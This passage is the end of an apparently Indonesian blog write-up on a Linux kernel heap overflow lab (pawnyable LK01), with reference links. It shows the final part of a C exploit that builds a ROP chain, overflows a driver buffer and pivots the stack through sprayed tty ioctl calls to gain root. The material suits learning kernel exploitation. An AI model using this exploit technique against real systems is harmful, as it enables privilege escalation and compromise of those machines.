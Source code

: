 ```c
    *rop++ = user_cs;
    *rop++ = user_rflags;
    *rop++ = user_rsp;
    *rop++ = user_ss;

    write(global_fd, buff,0x500);

    for(int i = 0; i < 100; i++){
        ioctl(fd_spray[i], 0xdeadbeef, g_buf - 0x10); //pop rsp r13 rbp
    }

    return EXIT_SUCCESS;
}

```
<img src="{{ site.url }}{{ site.baseurl }}/images/kernel-pwn-heap-overflow-root.jpg" alt="">

---

Referensi
---

<a href="https://pawnyable.cafe/linux-kernel/LK01/heap_overflow.html">https://pawnyable.cafe/linux-kernel/LK01/heap_overflow.html</a>

<a href="https://github.com/smallkirby/kernelpwn/blob/master/technique/tty_struct.md">https://github.com/smallkirby/kernelpwn/blob/master/technique/tty_struct.md</a>

---
